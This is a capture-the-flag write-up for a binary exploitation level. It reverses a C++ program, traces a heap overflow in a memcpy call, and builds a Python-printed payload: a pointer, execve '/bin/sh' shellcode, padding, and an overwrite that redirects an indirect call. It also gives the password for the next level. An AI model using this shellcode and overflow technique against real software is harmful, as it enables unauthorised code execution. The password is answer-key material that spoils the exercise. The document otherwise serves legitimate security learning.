


### Level 9

#### Basic Recon


as you can see there's no call to `system` or some `fopen` with `print`. so probably I should insert some shell code via
that `memcpy`
and not obvious how input is being taken no `fgets` or something similar.
it seems that this binary was compiled from c++ how would I know? well you can see `__do_global_ctors_aux`


as you can see our input is being copied to `0x0804a00c`, we may input our shell code so it'll be stored there, and somehow jump to it

#### Let's Debug


##### First Look aka quick look


as you can see there's call to `exit` and `_Znwj@plt` and at line `main+14` there's `jg` i believe it is comparing how many arguments are passed, it'll exit if we did not give any argument. and for `_Znwj@plt` it's being used like this

```c
_Znwj(
    0x6c, // 108
);
```

and it returns something like this `0x804a008`


what is going inside




well there's malloc and it's being called with input of `_Znwj` and the return value of it is just what malloc has returned


after that there's call to `_ZN1NC2Ei`

```c
_ZN1NC2Ei(
    0x804a008, // return value of the first malloc
    0x5
);
```


as you can see value of eax is `0x804a008` what was returned by malloc.


in that memory location we put the value `0x8048848` which is probably some pointer to some function this is just maybe for now. the memory look like this for now


and the value 0x5 is being stored at the end of the memory that was returned by malloc


again there's another call to `_Znwj` with the same input as before `0x6c`


and as you can see `malloc` has returned `0x804a078` which is almost right after the first malloc `0x804a078 - 0x804a008 = 112`, and first malloc has size of 108 that mean only 4 bytes are skipped, why this calculation for now no reason, just info if I needed it!


again call to `_ZN1NC2Ei` but now we put the value 6 at the last location of the second malloc so the memory look something like this


till this point I don't see something that I could influence, let's continue

as you can see from the picture below, there's only one call left `_ZN1N13setAnnotationEPc` aside from `call edx`, that must be the weak point.


let's see now the stack before we call it


so unitl this point `_ZN1N13setAnnotationEPc` will be called like this

```c
_ZN1N13setAnnotationEPc(
    0x0804a008,// first malloc
    0xbffff8fe // our input
);
```
let's see what is going on inside


as you can see there's call to `strlen` with our input


as you can see `edx` register will have the value of the first malloc


now `edx` pointing to our malloc + 4

fast-forward to call `memcpy`


```c
memcpy(
    0x804a00c, // first malloc+4 and it's stored in edx
    0xbffff8fe, // pointer to our argument
    0x7
);
```


so `edx` will point to our input, hold on I saw before that there's call to `edx` like this `call edx`, so if we somehow manage to put our shell in the memory and make edx point to it (our shell) we are good, so let's see how edx is being fetched


let's go step by step now




as you can see from the pic above

`mov edx, DWORD PTR [eax]` which it says that go to location eax=0x8048848 and get what is there, and later will jump to it,
so we could overwrite that location with the value of the first malloc+4 why +4 because that's our input will be stored

maybe something like this


where xx xx will be the start of shell code? actually that would be problem because there's another derefrenece


so actually there should be another address well that's easy
we put there address that will point just right after it something like this


#### Payload Construction

```py
python -c "print('\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')"
```
this is the first part and we need to fill the rest and then overwrite the desired location

the above stuff will be stored at location `0x0804a00c`, and we want to overwrite the location `0x0804a078` and until now we have 4 for the address  `0x0804a010` and 21 for the shell code so in total 25 bytes are filled now, we need to fill the rest, in total the gap between them is
`0x0804a078 - 0x0804a00c = 108` so we need to add padding of size 108 - 25 = 83, and then put the overwrite value.

```py
python -c "print('\x10\xa0\x04\x08' + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80' + 'A'*83 + '\x0c\xa0\x04\x08')"
```

let's try it


#### Password For bonus0
```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```